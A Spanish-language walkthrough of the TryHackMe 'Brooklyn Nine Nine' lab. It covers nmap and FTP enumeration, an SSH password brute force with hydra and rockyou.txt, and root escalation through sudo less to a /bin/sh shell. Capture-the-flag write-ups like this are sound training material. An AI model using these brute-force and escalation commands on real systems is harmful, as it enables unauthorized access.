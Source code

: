 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - FTP
  - HTTP
  - FuzzingWeb
  - Hydra
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#FTP|FTP]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Brooklyn Nine Nine

>En esta publicación, comparto cómo resolví la máquina **Brooklyn Nine Nine** de [TryHackMe](https://tryhackme.com/room/brooklynninenine).

---
## Enumeración
### Ping

`ping -c 1 10.10.32.108`

![[Pasted image 20250803184053.png]]

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.32.108 -oG allPorts`

![[Pasted image 20250803184325.png]]

`nmap -p21,22,80 -sCV 10.10.32.108 -oN targeted`

![[Pasted image 20250803184345.png]]
### FTP

Se observa que el servicio **FTP** (puerto 21) se encuentra abierto y con el inicio de sesión anónimo activado.

`ftp 10.10.32.108`

![[Pasted image 20250803184633.png]]

`ls`

![[Pasted image 20250803184656.png]]

Se identifica el archivo `note_to_jake.txt`, el cual se descarga para su análisis.

`get note_to_jake.txt`

`cat note_to_jake.txt`

![[Pasted image 20250803184849.png]]

Se encuentra el usuario `jake`, que le están pidiendo cambiar la contraseña.
### HTTP

`http://10.10.32.108/`

![[Pasted image 20250803185000.png]]
#### Fuzzing Web

`dirb http://10.10.32.108`

![[Pasted image 20250803185120.png]]

---
## Explotación
### Hydra

Se realiza un ataque de fuerza bruta sobre el usuario `jake`, utilizando el diccionario `rockyou.txt`.

`hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.32.108 -t 64`

![[Pasted image 20250803185533.png]]

Se obtiene la contraseña `987654321` correspondiente al usuario `jake`.
### SSH

Se accede al servicio **SSH** (puerto 22) con el usuario y contraseña obtenidos anteriormente.

`ssh jake@10.10.32.108`

![[Pasted image 20250803185714.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250803185822.png]]

Se detecta que el usuario puede ejecutar `/usr/bin/less` como superusuario. Según [GTFOBins](https://gtfobins.github.io/gtfobins/less/#sudo), este binario puede ser explotado para obtener una shell con privilegios elevados.

![[Pasted image 20250803190025.png]]

```bash
sudo less /etc/profile
!/bin/sh
```

![[Pasted image 20250803190128.png]]

---